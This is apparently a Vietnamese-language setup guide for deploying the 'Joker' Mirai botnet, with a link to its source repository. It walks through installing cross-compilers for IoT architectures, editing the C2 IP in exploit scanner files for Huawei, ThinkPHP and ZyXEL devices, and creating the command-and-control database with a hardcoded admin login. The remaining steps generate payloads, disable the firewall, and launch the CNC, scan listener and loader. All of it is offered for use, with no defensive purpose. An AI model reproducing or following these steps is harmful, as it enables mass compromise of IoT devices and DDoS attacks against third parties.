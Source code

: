 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ: Bạn cần Centos 6 cho việc này
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y; yum install epel-release -y; yum groupinstall "Development Tools" -y; yum install gmp-devel -y; ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10; yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
rm -rf /usr/local/go; wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz; sha256sum go1.10.3.linux-amd64.tar.gz; sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz; export PATH=$PATH:/usr/local/go/bin; source ~/.bash_profile; rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile; cd /etc/xcompile; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2; wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2; wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2; tar -jxf cross-compiler-i586.tar.bz2; tar -jxf cross-compiler-m68k.tar.bz2; tar -jxf cross-compiler-mips.tar.bz2; tar -jxf cross-compiler-mipsel.tar.bz2; tar -jxf cross-compiler-powerpc.tar.bz2; tar -jxf cross-compiler-sh4.tar.bz2; tar -jxf cross-compiler-sparc.tar.bz2; tar -jxf cross-compiler-armv4l.tar.bz2; tar -jxf cross-compiler-armv5l.tar.bz2; tar -jxf cross-compiler-armv6l.tar.bz2; tar -jxf cross-compiler-armv7l.tar.bz2; rm -rf *.tar.bz2; mv cross-compiler-i586 i586; mv cross-compiler-m68k m68k; mv cross-compiler-mips mips; mv cross-compiler-mipsel mipsel; mv cross-compiler-powerpc powerpc; mv cross-compiler-sh4 sh4; mv cross-compiler-sparc sparc; mv cross-compiler-armv4l armv4l; mv cross-compiler-armv5l armv5l; mv cross-compiler-armv6l armv6l; mv cross-compiler-armv7l armv7l; cd /tmp; wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q; tar -xzf go1.8.3.linux-amd64.tar.gz; mv go /usr/local/go; cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:

```/bot/huawei.c``` Tìm quên

```/bot/thinkphp.c``` Tìm quên

```/bot/zyxel_scanner.c``` Tìm quên

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root
Sao chép & Dán này: 
```
service mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)
